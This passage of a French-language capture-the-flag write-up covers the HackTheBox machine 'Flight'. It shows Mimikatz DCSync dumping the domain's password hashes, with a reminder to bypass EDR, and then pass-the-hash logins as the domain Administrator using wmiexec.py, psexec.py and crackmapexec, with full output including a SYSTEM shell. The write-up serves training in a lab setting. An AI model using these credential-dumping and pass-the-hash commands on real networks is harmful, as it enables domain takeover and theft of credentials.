 ```yaml
---
public: true # set to true to make the article publishable
---
```


## dump de la base NTDS.DIT

Penser à bypasser l'EDR en place !!

- On upload `Mimikatz.exe`
- On exécute ensuite : `mimikatz.exe "lsadump::dcsync /domain:flight.htb /all /csv"`
![[Flight-13.png]]

### Vérification des accès

Grace à ces hashes collectés, nous pourrons nous reconnecter via l'attaque *Pass The Hash* à distance à la machine en tant qu'administrateur du domaine, sans disposer du mot de passe de cet utilisateur :

```shell title="Utilisation du Hash NT récupéré avec wmiexec.py"
$ wmiexec.py  -hashes :43bbfc530bab76141b12c8446e30c17c -dc-ip $TARGET_IP flight.htb/Administrator@$TARGET_IP whoami
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

[*] SMBv3.0 dialect used
flight\administrator
```

```shell title="Utilisation du Hash NT récupéré avec psexec.py"
$ psexec.py Administrator@$TARGET_IP -hashes :43bbfc530bab76141b12c8446e30c17c
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

[*] Requesting shares on 10.10.11.187.....
[*] Found writable share ADMIN$
[*] Uploading file BVTQqKla.exe
[*] Opening SVCManager on 10.10.11.187.....
[*] Creating service gxjC on 10.10.11.187.....
[*] Starting service gxjC.....
[!] Press help for extra shell commands
Microsoft Windows [Version 10.0.17763.2989]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32> whoami
nt authority\system
```

```shell title="Utilisation du Hash NT récupéré avec crackmapexec"
└─$ cme smb $TARGET_IP -u Administrator -H 43bbfc530bab76141b12c8446e30c17c --shares | cut -c60-
      [*] Windows 10.0 Build 17763 x64 (name:G0) (domain:flight.htb) (signing:True) (SMBv1:False)
      [+] flight.htb\Administrator:43bbfc530bab76141b12c8446e30c17c (Pwn3d!)
      [+] Enumerated shares
      Share           Permissions     Remark
      -----           -----------     ------
      ADMIN$          READ,WRITE      Remote Admin
      C$              READ,WRITE      Default share
      IPC$            READ            Remote IPC
      NETLOGON        READ,WRITE      Logon server share 
      Shared          READ            
      SYSVOL          READ            Logon server share 
      Users           READ            
      Web             READ            
```
